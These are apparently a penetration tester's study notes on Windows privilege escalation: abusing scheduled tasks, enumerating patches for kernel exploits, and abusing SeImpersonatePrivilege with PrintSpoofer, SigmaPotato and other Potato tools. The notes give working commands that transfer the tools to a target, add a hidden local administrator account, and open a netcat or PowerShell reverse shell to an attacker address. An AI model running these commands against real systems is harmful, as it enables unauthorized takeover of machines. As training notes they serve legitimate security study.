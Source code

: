 ## Scheduled Tasks

Windows uses the Task Scheduler to execute various automated tasks (*Scheduled Tasks*), defined with one or more triggers.

Vital info we should obtain from a scheduled task to identify possible privesc vectors:
- As which user account (principal) does this task get executed?
	- Will abusing this task lead to privilege escalation?
- What triggers are specified for this task?
	- If the trigger condition was met in the past, the task will not run again in the future
	- If the task is set to run after the deadline of the pentest (still mention in the finding report!)
- What actions are executed when one or more of these triggers are met?
	- How we can perform the potential privilege escalation
	- Usually can replace binary or place missing DLL like in [[Leveraging Windows Services]]

Steps:
1. Connect to target machine
2. View scheduled tasks:
   `schtasks /query /fo LIST /v`
   Pay attention to info that answers the three questions above:
	   - TaskName
	   - Next Run Time
	   - Author
	   - Task To Run
	   - Run As User
3. Check if we have the permissions to write to the file to be executed by target task ("Task to Run"):
   `icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe`
4. Replace the executable file with malicious one (see [[Leveraging Windows Services]])
5. Wait for scheduled task to execute, then check if new user with local administrative privileges is created successfully

## Using Exploits

Three kinds:
- Application-based (see [[Locating Public Exploits]])
- Windows kernel exploits (very advanced, no need to know details)
	- Keep in mind that these exploits can easily crash a system. Download and use with caution.
- Abusing certain Windows privileges
	- *SeImpersonatePrivilege*: offers the possibility to leverage a token with another security context
		- By default, local Administrators, LOCAL SERVICE, NETWORK SERVICE, and SERVICE accounts have this privilege
	- *SeBackupPrivilege*, *SeAssignPrimaryToken*, *SeLoadDriver*, and *SeDebug*

### Kernel exploit

Enumeration:
1. Check if current user has any special privs assigned:
   `whoami /priv`
2. Enumerate version of Windows:
   `systeminfo`
3. Enumerate any security patches installed:
   `Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }`
4. Check the Security Vulnerabilities section of [Microsoft Security Response Center](https://msrc.microsoft.com/) for any known vulnerabilities, or search on internet: https://msrc.microsoft.com/update-guide/
5. After a public exploit is located, check the official [MSRC website for the vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29360) to make sure that the required patch is not applied on the target
6. Compile the public exploit (use `systeminfo` to check system type for compilation, see also [[Leveraging Windows Services]]) and transfer to target. Run exploit.

### SeImpersonatePrivilege 

Named pipes:
- a method for Inter-Process Communication in Windows
- A named pipe server can create a named pipe to which a named pipe client can connect via the specified name
- server and client don't need to reside on same system
- Once a client connects to a named pipe, the server can leverage SeImpersonatePrivilege to impersonate this client after capturing the authentication from the connection process. 
- To abuse this, we need to find a privileged process and coerce it into connecting to a controlled named pipe

#### Example: PrintSpoofer

Tool: [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
- coerces NT AUTHORITY\SYSTEM into connecting to a controlled named pipe
- Prerequisites:
	- we have code execution as a user with the privilege SeImpersonatePrivilege to execute commands or obtain an interactive shell as NT AUTHORITY\\SYSTEM

Steps:
1. Connect to bind shell in target machine
2. Check that we have SeImpersonatePrivilege:
   `whoami /priv`
3. Download 64-bit version of PrintSpoofer to Kali and serve it on a Python web server:
   `wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`
4. Transfer the PrintSpoofer binary to the target machine:
   (PS) `iwr -uri http://192.168.119.2/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe`
5. `.\PrintSpoofer64.exe -i -c powershell.exe`
	- `-c`: specify command to execute as the privileged user
	- `-i`: interact with the process in the current command prompt

Alternative tools: variants of the Potato family

> If the created shell dies immediately, create a reverse shell to Kali! (e.g. using nc.exe)

#### Example: [SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)
implements a variation of the potato privilege escalations to coerce NT AUTHORITY\SYSTEM into connecting to a controlled named pipe

When to use:
- have code execution as a user with the privilege *SeImpersonatePrivilege* to execute commands or obtain an interactive shell as NT AUTHORITY\SYSTEM

Steps:
1. Connect to bind shell on target machine
2. Check the privileges of current user:
   `whoami /priv`
	- Check that we have *SeImpersonatePrivilege*
3. Download the SigmaPotato tool (version depends on the target system) on Kali and serve it on an http server on Kali:
   `wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe`
   `python3 -m http.server 80`
4. Download the tool on target:
   `powershell`
   `iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe`
5. Use SigmaPotato to execute command in the context of NT AUTHORITY\SYSTEM: (e.g. create a new local Admin account)
   `.\SigmaPotato "net user dave4 lab /add"` 
   `net user`
   `.\SigmaPotato "net localgroup Administrators dave4 /add"`
   `net localgroup Administrators`

Useful reference: [Different kinds of potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

### Potatoes guide

- `PrintSpoofer64.exe`
	- Windows 10 and Server 2016/2019
	- `.\PrintSpoofer64.exe -i -c powershell.exe` (or do command for reverse shell if powershell dies immediately)
- `God-Potato-NET35.exe`
	- Windows Server 2012-2022, Windows 8-11
	- `God-Potato-NET35.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"`
- `God-Potato-NET4.exe`
	- Windows Server 2012-2022, Windows 8-11
	- `.\God-Potato-NET4.exe -cmd "powershell -e {REVSHELL}"`
- `RoguePotato.exe`
	- Windows Server 2019
- `JuicyPotatoNG.exe`

